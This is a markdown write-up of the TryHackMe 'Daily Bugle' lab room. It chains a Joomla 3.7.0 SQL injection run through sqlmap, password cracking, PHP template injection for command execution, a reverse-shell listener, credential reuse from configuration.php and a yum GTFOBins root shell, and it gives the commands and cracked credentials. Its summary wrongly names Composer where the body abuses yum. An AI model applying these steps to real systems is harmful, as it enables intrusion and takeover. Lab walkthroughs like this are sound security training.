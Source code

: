 # TryHackMe - Daily Bugle 🕵️‍♂️
 
**Room**: [Daily Bugle](https://tryhackme.com/room/dailybugle)  
**Difficulty**: Medium/hard  
**Category**: Web | Privilege Escalation  

---

## Summary

This box involved exploiting a vulnerable Joomla CMS installation to gain a foothold, then escalating privileges by abusing misconfigured `sudo` permissions on Composer. Overall, a great exercise in chaining web-based exploitation with local privilege escalation. There are some random questions in here that I might not go over entirely to shout out the answer.

---

## Recon & Enumeration

### Nmap

```bash
nmap -sC -sV -oA nmap/dailybugle <IP>


22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache httpd 2.4.18
```
### Web Enum

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -o gobusterenum.txt
```
Discovered the site is running Joomla 3.7:

Which has a known RCE vulnerability `JOOMLA VERSION: 3.7.0` https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html:
```
JOOMLA VERSION: 3.7.0


# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917
```
Using sqlmap: 
```
sqlmap -u "http://<IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
| id  | name       | email                                             | password (bcrypt)                                                | username |
| --- | ---------- | ------------------------------------------------- | ---------------------------------------------------------------- | -------- |
| 811 | Super User | [jonah@tryhackme.com](mailto:jonah@tryhackme.com) | \$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw\.V.d3p12kBtZutm | jonah    |

There is a hash and now we need to crack it using johntheripper: 
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
Cracked password: `spiderman123`

### Joomla Admin Access & Remote Code Execution (RCE)
Logged into Joomla admin with credentials jonah:spiderman123.Because the version is outdated and vulnerable, you can inject malicious PHP code in a template file.
This code lets you execute system commands on the server (Remote Code Execution).
You test this by running a simple command (ls) through the injected PHP shell, confirming you have command execution on the target.
Exploited template editing functionality to inject commands and get RCE:
```
http://10.10.141.15/index.php?cmd=ls
```
```
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```
### Getting a Reverse Shell
Using the Joomla shell, you run a reverse shell payload that connects back to your listener, giving you interactive shell access on the server.
```
nc -nvlp 4444
```
From Joomla RCE, spawned a reverse shell:
```
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
### Finding Credentials
Joomla stores its database credentials in a file called configuration.php.
You locate and read this file, finding the MySQL database username and password.
This is important because the database password might be reused elsewhere, or the database user might have higher privileges.
In `configuration.php` :
```
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';

```
### Switching Users
Here we can see the credentials to a user. How about `jjameson`?
```
su jjameson -> Password: nv5uz9r3ZEDzVjNu
```
### Checking Permissions
We can check the permissions of the user:
```
sudo -l
```
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
### Privilege Escalation
The best place to check for escalating privileges is GTFO bins. 
`jjameson` can run yum with no password, we can spawn a root shell.
https://gtfobins.github.io/gtfobins/yum/

```
TF=$(mktemp -d) 
```
```
cat > $TF/x <<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

```
```
cat > $TF/y.conf <<EOF
[main]
enabled=1
EOF
```
```
cat > $TF/y.py <<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```
```
sudo yum -c $TF/x --enableplugin=y
```
# ROOT!

### Conclusion
The Daily Bugle room demonstrated how critical vulnerabilities in outdated web applications like Joomla 3.7.0 can lead to full system compromise. Starting with enumeration, we identified Joomla running on the target and used a known SQL Injection (CVE-2017-8917) to extract credentials from the database. Cracking the password hash with john gave us access to the Joomla admin panel, where we leveraged template editing for Remote Code Execution. From there, we escalated our privileges by inspecting the configuration.php file to obtain the MySQL root password, which was reused by a local user. Switching users allowed us to enumerate sudo privileges, revealing that the user jjameson could run yum as root without a password. Using a GTFOBins technique, we exploited the yum plugin system to spawn a root shell.
